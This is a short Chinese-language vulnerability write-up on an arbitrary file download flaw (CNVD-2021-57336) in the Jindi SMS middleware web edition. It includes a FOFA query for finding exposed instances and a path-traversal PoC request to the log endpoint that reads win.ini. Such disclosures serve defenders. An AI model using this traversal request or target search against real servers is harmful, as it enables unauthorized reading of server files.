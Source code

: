 # 金笛 短信中间件Web版 log 后台任意文件下载漏洞 CNVD-2021-57336

## 漏洞描述

金笛 短信中间件Web版后台存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件信息

## 漏洞影响

```
金笛 短信中间件Web版
```

## FOFA

```
app="金笛短信中间件(WEB版)"
```

## 漏洞复现

登录页面

![image-20220525150803211](./images/202205251508287.png)

存在漏洞的位置为 日志下载

![](./images/202205251508351.png)

验证POC

```
/log?action=view&pageIndex=1&name=../../../windows/win.ini
```

![](./images/202205251508651.png)